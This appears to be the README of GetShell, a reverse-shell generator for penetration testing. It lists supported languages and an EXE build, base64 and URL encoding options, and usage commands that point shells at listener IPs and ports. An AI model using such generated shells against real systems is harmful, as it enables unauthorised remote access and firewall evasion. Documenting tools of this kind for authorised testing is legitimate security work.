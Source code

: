 


# Getshell
-----------------------------------------
### what is reverseshell
--------------------------------
The reverse shell (reverse shell) - also called reverse tunnel (reverse tunnel) - is a computer technique which makes it possible to redirect on a local computer the entry and the exit of a shell towards a remote computer, through a service able to interact between the two computers. One of the advantages of this technique is to make a local shell accessible from this remote server without being blocked by a firewall1.
### Getshell
--------------------------------
* Get shell is   reverseshell generator 
*  have opetion to convert to exe
*  also encode base64 and url encode 
*  generate PHP reverseshell "pentestmonkey"

### Support types of reverseshell :-
------------------------------------------------
* Spport type  is :  python
* Support type is :  bash
* Support type is :  perl
* Support type is :  php
* Support type is :  ruby
* Support type is :  netcat
* Support type is :  xterm
* Support type is :  java
* Support type is :  powershell
* Support type is :  js
* Support type is :  exe
## How to use :- 
----------------------------------------
* git clone https://github.com/jac11/GetShell.git
* cd GetShell
* chmod 755 getshell.py
### Command :
---------------------------------
* to check types reverseshell suport
````
./getshell.py --info
````
* to generate python reverseshell liunx 
```
 ./getshell.py -t python -i 10.195.100.22 -p 4444
```
*  to generate python reverseshell windows
```
./getshell.py -t python -i 10.195.100.22 -p 4444 -W
```
* to generate powershell reverseshell 
```
./getshellpy -t powershell -i 10.195.100.223 -p 4444 
```
*  to generate powershell reverseshell base64 or urlencode 
```
./getshellpy -t powershell -i 10.195.100.223 -p 4444 -B84
./getshellpy -t powershell -i 10.195.100.223 -p 4444 -UE
```
* write output in to file and -o 
```
./getshellpy -t powershell -i 10.195.100.223 -p 4444 -B84 -o
```
### EXE reversehell 
-------------------------------
* to can auto compile to exe file required " sudo apt-get install mingw-w64 "
* after insatll mingw-w64 you can compile to exe as
``` 
./getshell.py -t exe -i 10.195.100.22 -p 4444 
```
###  generate PHP reverseshell "pentestmonkey"
--------------------------------------------------
```
./getshell.py -t php -i 10.195.100.33 -p 5555 -M
```
### python file :
----------------------------------
* to generate python file not oneline shell for windows or linux use 
```
./getshell.py -t python -i 10.195.100.22 -p 7777 -F 
./getshell.py -t python -i 10.195.100.22 -p 7777 -F -W 
```
### note :
* all output file will autosave at /Stote_shell/ folder 
* option -i and  -p  your listiner ip and  port 
### Connect me :
   * jac11devel@gmail.com
   * Thankypu
